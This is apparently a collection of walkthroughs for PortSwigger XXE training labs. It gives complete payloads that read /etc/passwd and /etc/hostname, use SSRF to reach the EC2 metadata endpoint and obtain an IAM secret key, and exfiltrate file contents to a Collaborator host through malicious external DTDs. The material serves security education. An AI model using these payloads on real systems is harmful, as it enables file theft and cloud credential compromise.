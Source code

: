 **Lab: Exploiting XXE using external entities to retrieve files**

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
Replace the productId number with a reference to the external entity: &xxe;. The response should contain "Invalid product ID:" followed by the contents of the /etc/passwd file.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/4b659553-dd2e-4d5c-841a-1cab3610b62a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/a68a9acb-e875-4d12-87af-d7e5c8796230)

**Lab: Exploiting XXE to perform SSRF attacks**

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
Replace the productId number with a reference to the external entity: &xxe;. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
Iteratively update the URL in the DTD to explore the API until you reach /latest/meta-data/iam/security-credentials/admin. This should return JSON containing the SecretAccessKey.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d38497ba-f4c7-4125-872a-63a90a358418)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/b6f0cd29-de9b-41f8-9496-324addf1e1b4)

**Lab: Blind XXE with out-of-band interaction**

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
Replace the productId number with a reference to the external entity:

&xxe;
Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8afc8214-9a2e-4d83-b374-cf2077bb0594)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1df95350-7428-4192-b893-2aa38c5ee0d8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/708a1c40-e077-46f2-9db4-6a5642732af1)

**Lab: Blind XXE with out-of-band interaction via XML parameter entities**

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8df209cf-4144-4121-986f-fa9f7eb59494)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/73f1997e-a9ff-4226-ac36-6039d0a88b6a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/94269059-7387-4362-a69f-e26947ca38a8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/12bc1db7-bc89-4837-a888-298821baa798)

**Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD**

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

Using Burp Suite Professional, go to the Collaborator tab.
Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
Place the Burp Collaborator payload into a malicious DTD file:

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the /etc/hostname file.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1f4d0bee-a930-4eff-b4d9-decb8cddbd9a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/dd67acd8-378e-4809-b56c-1e5b2f61d286)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8bccc266-40c5-4318-a957-d4899d818712)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/a812d4f2-ec14-40c6-afa0-21df3c2bae30)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/eec5b5f6-6fa2-43d5-80a9-608676972f7c)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/55c1342e-23d2-4205-89f2-0d73c0931f2c)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/c5281175-2a58-4266-bac1-e9ba8bab0bc6)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/41731873-a46d-4ab5-abb9-0073d67d1c7c)

**Lab: Exploiting blind XXE to retrieve data via error messages**

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

Click "Go to exploit server" and save the following malicious DTD file on your server:

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
When imported, this page will read the contents of /etc/passwd into the file entity, and then try to use that entity in a file path.

Click "View exploit" and take a note of the URL for your malicious DTD.
You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
You should see an error message containing the contents of the /etc/passwd file.


